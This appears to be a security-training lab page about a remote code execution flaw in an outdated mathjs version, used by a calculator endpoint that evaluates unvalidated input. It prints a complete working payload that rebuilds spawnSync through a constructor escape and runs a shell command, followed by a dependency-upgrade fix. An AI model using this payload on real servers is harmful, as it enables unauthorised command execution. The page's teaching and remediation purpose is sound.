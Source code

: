 # Using Components with Known Vulnerabilities

## mathjs Remote Code Execution

The version of mathjs(https://www.npmjs.com/package/mathjs) library used in the application has a remote code execution vulnerability that allows an attacker to run arbitrary code on the server. 

To understand how the exploit works, look at [this](https://capacitorset.github.io/mathjs/)

The calculator implementation uses `mathjs.eval` to evaluate user input at

http://127.0.0.1:9090/app/calc

There is no input validation either, probably because it is going to be a maths equation which will contain symbols

Malicious input that triggers command execution
```
cos.constructor("spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}")();cos.constructor("return spawnSync('id').output[1]")()
```

Which results in this
![rce](/resources/rce.png "Command Execution")

**Solution**

Modify fixed version to compatible version in `package.json`
```
...
    "flash": "^1.1.0",
    "mathjs": "^3.10.1",   // Add ^ to install latest compatible version
    "md5": "^2.2.1",
...
```

Now install the package again by running `npm install`

**Recommendation**

- Dependencies must be updated regularly, and preferably automatically. 
- Solutions like [Snyk](https://snyk.io/) and [NSP](https://nodesecurity.io/) can regularly monitor your dependencies and alert you of any vulnerable dependencies.

**Reference**

- https://www.owasp.org/index.php/Top_10_2013-A9-Using_Components_with_Known_Vulnerabilities
- https://blog.travis-ci.com/2017-04-20-continuous-security-snyk-travis-ci/ 

